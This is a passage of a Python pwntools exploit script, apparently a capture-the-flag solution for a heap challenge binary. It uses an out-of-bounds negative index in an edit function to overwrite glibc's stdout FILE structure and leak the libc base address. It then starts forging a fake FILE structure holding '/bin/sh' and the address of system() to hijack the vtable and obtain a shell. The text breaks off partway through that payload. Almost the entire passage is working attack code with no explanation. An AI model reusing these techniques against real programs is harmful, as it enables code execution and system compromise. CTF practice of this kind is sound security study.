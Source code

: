 ```plain
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')



def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    sla('5.exit\n',str(1))
    sla('Input the size:\n',str(size))
    sa('Input the content:\n',content)

def delete(idx):
    sla('5.exit\n',str(2))
    sla('Input the index:\n',str(idx))

def edit(idx,size,content):
    sla('5.exit\n',str(4))
    sla('Input the index:\n',str(idx))
    sla('Input size:\n',size)
    sa('Input new content:\n',content)

add(0x100,'a') #0
pl=p64(0xfbad1887)+p64(0)*3+b'\x00'
edit(-0x10,0xa0,pl) #
libc_base=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x3c36e0
leak('libc_base',libc_base)
leak('_IO_save_base',libc.symbols['system']+libc_base)
leak('lock',libc_base+0x3c6780)
leak('vtable',libc_base+libc.symbols['_IO_2_1_stdout_']+0x10)

pl=flat([
    b'/bin/sh\x00',
    p64(0)*8,
    libc.symbols['system']+libc_base, #_IO_save_base
    p64(0)*6,
    p64(0),
    #p64(0)*3,
    libc_base+0x3c6780, #lock
    p64(0),
    p64(0)*8,
    libc_base+libc.symbols['_IO_2_1_stdout_']+0x10 #
```